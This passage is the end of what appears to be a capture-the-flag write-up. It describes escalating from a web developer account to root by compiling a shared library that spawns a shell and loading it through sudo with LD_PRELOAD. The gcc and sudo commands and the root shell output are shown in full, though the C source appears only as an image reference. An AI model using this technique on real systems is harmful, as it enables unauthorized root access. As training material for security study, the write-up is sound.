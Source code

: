 This code just unsets the variable (so it won't loop forever) and then drops a root shell. To compile it like a library just use

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Now with the library compiled let's just tell the binary to use it like this

```shell
webdeveloper@sky:/dev/shm$ sudo LD_PRELOAD=/dev/shm/shell.so /usr/bin/sky_backup_utility
# whoami
root
```

Make sure to write the absolute path for both the library and the binary. And just like that we are root on the system, thanks for reading!
